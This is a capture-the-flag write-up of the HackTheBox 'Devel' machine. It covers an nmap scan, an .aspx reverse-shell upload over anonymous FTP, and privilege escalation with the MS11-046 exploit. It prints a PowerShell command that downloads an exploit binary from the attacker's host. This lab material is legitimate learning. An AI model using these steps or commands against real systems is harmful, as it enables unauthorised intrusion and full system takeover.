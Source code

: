 <h1 style="margin-bottom:20px; text-align:center;">Devel</h1>

<div align="center">
  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/f386dc63-4e14-4568-afd6-faa1720e7732"></img>
</div>


  Welcome back, here we have a very old HacktheBox easy machine, that for this reason is really simple, but let’s start as usual, by running `nmap`

  ```plaintext
  ┌──(kali㉿kali)-[~/diego/Hack_the_box/Machines/Devel]
  └─$ sudo nmap -sS -sC -sV --script=vuln -oN scans/nmap.txt 10.10.10.5
  [sudo] password for kali: 
  Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-22 14:50 EDT
  Nmap scan report for 10.10.10.5
  Host is up (0.056s latency).
  Not shown: 998 filtered tcp ports (no-response)
  PORT   STATE SERVICE VERSION
  21/tcp open  ftp     Microsoft ftpd
  80/tcp open  http    Microsoft IIS httpd 7.5
  |_http-server-header: Microsoft-IIS/7.5
  | vulners: 
  |   cpe:/a:microsoft:internet_information_services:7.5: 
  |       CVE-2010-3972   10.0    https://vulners.com/cve/CVE-2010-3972
  |       SSV:20122       9.3     https://vulners.com/seebug/SSV:20122    *EXPLOIT*
  |       CVE-2010-2730   9.3     https://vulners.com/cve/CVE-2010-2730
  |       SSV:20121       4.3     https://vulners.com/seebug/SSV:20121    *EXPLOIT*
  |_      CVE-2010-1899   4.3     https://vulners.com/cve/CVE-2010-1899
  |_http-dombased-xss: Couldn't find any DOM based XSS.
  |_http-csrf: Couldn't find any CSRF vulnerabilities.
  |_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
  Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 253.22 seconds
  ```
  
  As always we have a website that we can visit
  
  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/3d4b9792-8015-4ca5-9c13-6d2f344fbfb3" load="lazy" ></img>
  
  This is the tipical page of Windows IIS, where we have nothing to do, but from nmap we can see that there is the ftp port, and maybe we can login via anonymous
  
  
  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/b0f2e002-12d3-410b-9658-b1274483d886" load="lazy"></img>
  
  
  And we are in! By listing the files we can see that there are all the pages that are visitable from the site, like the `welcome.png` one.
  
 
  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/78de96a2-01ef-4521-af83-ca2d1b8dcde2" load="lazy" ></img>

  
  We can now try to upload custom files like a revshell in php or py.

  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/53edac12-de11-4a8c-b3cd-ddee6c0d2605" load="lazy" ></img>

  
  As you can see neither of them seems not to be readable from the website page, so we can think of an executable extension allowed, and because we are in an `aspnet_client`, maybe we can use the `.aspx` extension.

  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/70801370-8c8c-4c11-acf3-639794f6960e" load="lazy" ></img>
 
  
  It works so now we can upload an `.aspx` reverseshell found [online](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx).
  Now we just need to upload it and visit the page while listening at that port
  

  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/6afc1ae2-b706-44ae-81ae-397738e04e64" load="lazy"></img>
  
  ## Privilege Escalation
  
  In this machine we won’t be able to read the user flag until we will get to admin, because we are not allowd to visit the user page, but by looking at the system informations we can get some interesting infos
  
 
  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/b466cd52-7d35-4242-bbdf-0b08ec794eb8" load="lazy"></img>

  
  As you can see we have a pretty old windows version without any Hot-Fix, and by looking for it online we found an interesting page 

  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/42ac3ed2-d3e5-43c5-a6f7-70a6f0153e8a" load="lazy"></img>

  
  
  We have even the `EDB-ID` that we can use to fetch the exploit from searchsploit
  

  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/0c8e9333-9965-4c43-882a-0217713822c3" load="lazy"></img>

  
  Now we need to compile the code in the given way of the `CVE`
  

  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/a743e510-f373-40aa-9bf3-0302fcf077ec" load="lazy"></img>
  
  
  
  So just compile and trasfer it via python server 
  
  ```c
  powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.204:8000/MS11-046.exe', 'C:\Windows\Temp\MS11-046.exe')"
  ```
  
  And here is the exploit execution

  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/a4eb57ba-388f-4303-a7af-a4f8238df9f6" load="lazy"></img>

  
  
  Now we are system and like this we can fetch all the flags
  
  ```plaintext
  c:\>type \Users\babis\Desktop\user.txt
  type \Users\babis\Desktop\user.txt
  aXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX6
  
  c:\>type \Users\administrator\Desktop\root.txt
  type \Users\administrator\Desktop\root.txt
  6XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX5
  ```
  Just like this we solved the machine

  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/9adc4f54-8bd3-41dd-bde1-311c173dde88" load="lazy"></img>

</div>
